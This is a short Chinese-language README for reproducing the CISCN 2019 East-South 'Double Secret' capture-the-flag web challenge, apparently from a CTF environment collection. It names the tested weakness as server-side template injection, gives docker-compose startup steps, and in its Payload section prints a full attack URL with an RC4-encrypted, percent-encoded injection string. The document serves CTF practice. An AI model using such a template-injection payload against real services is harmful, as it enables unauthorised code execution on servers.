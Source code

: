 # CISCN 2019 华东南  Double Secret

## 题目详情

- **2019 CISCN 2019 华东南 Double Secret**

## 感谢
华东南赛区的南溟师傅备份题目并提供给我复现。

## 考点

- SSTI

## 启动

	docker-compose up -d
	open http://127.0.0.1:8083/

## Payload

先爆源码，再 RC4 加密一下。

http://web54.buuoj.cn/secret?secret=%2e%14%19%12%c3%ad%49%34%51%68%c2%91%c3%99%00%c2%ad%c2%8d%c3%89%c3%a6%0b%c2%ac%59%26%c2%b8%6d%c3%9f%49%58%c2%ac%76%c2%b6%6d%c3%9f%27%c3%a5%2e%c2%87%4c%c3%85%1b%c3%b4%3b%c3%9b%44%c2%92%c3%84%c3%99%39%5e%c2%80%52%c3%a7%c3%b2%40%60%63%c3%ac%64%78%c2%8f%2b%0a%c2%8d%c3%b7%58%14%c3%b4%c2%90%51%c3%b3%09%27%59

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（ i@zhaoj.in ）
